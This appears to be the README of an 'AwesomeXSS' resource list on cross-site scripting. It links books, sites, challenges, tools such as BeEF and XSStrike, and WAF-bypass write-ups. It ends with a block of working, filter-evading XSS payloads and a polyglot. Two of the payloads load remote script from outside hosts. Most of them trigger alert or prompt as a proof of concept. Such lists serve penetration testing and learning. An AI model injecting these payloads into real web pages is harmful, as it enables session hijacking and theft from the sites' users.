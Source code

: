 #Google XSS
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

# AwesomeXSS
Awesome XSS stuff.
Put this repo on watch. I will be updating it regularly.

### Awesome Books
- [XSS Cheat Sheet By Brute Logic](https://leanpub.com/xss)

### Awesome Websites
- [brutelogic.com.br](http://brutelogic.com.br)
- [respectxss.blogspot.in](https://respectxss.blogspot.in/)

### Awesome Challenges
- [Google's XSS Challenge](https://xss-game.appspot.com/)
- [prompt(1) to win](http://prompt.ml/)

### Awesome People
- [Rodolfo Assis](https://twitter.com/brutelogic)
- [Ashar Javed](https://twitter.com/soaj1664ashar)
- [Somdev Sangwan](https://twitter.com/s0md3v) because I made this repo :3

### Awesome Reads & Presentations
- [XSS in Sarahah](http://www.shawarkhan.com/2017/08/sarahah-xss-exploitation-tool.html)
- [Bypass Any WAF for XSS](https://teamultimate.in/bypass-waf-xss-easily/)
- [XSS in Facebook via PNG Content Type](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
- [How I met your girlfriend](https://www.youtube.com/watch?v=fWk_rMQiDGc)
- [How to Find 1,352 Wordpress XSS Plugin Vulnerabilities in one hour](https://www.youtube.com/watch?v=9ADubsByGos)
- [Blind XSS](https://www.youtube.com/watch?v=OT0fJEtz7aE)
- [Copy Pest](https://www.slideshare.net/x00mario/copypest)

### Awesome Tools
- [XSStrike](http://xsstrike.tk/)
- [KNOXSS](http://knoxss.me/)
- [BeEF](https://github.com/beefproject/beef)
- [JShell](https://github.com/UltimateHackers/JShell)

### Awesome Payloads
```
<--`<img/src=` onerror=alert(1)> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg/x=">"/onload=confirm()//
<svg </onload ="1> (_=prompt,_(1)) "">
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<details ontoggle=confirm()>
<svg onload=write()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
```
Here's an interesting XSS polyglot by [Ahmed Elsobky](https://github.com/0xsobky/):
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```